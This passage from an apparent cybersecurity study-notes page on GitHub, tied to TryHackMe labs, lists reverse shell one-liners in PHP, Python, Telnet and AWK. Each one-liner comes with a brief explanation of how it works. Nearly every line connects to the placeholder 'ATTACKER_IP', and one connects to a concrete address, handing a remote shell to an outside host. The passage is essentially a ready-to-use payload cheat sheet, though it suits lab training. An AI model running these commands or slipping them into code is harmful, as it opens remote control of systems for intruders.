 target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'

This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.

#### Python

[](https://github.com/johannranudd/cyber_security_notes/blob/main/Shells.md#python)

Python Reverse Shell by Exporting Environment Variables Terminal

target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

Python Reverse Shell Using the subprocess Module Terminal

target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

Short Python Reverse Shell Terminal

target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'

This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

Others

#### Telnet

[](https://github.com/johannranudd/cyber_security_notes/blob/main/Shells.md#telnet)

Terminal

target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF

This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443.

#### AWK

[](https://github.com/johannranudd/cyber_security_notes/blob/main/Shells.md#awk)

Terminal

target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.
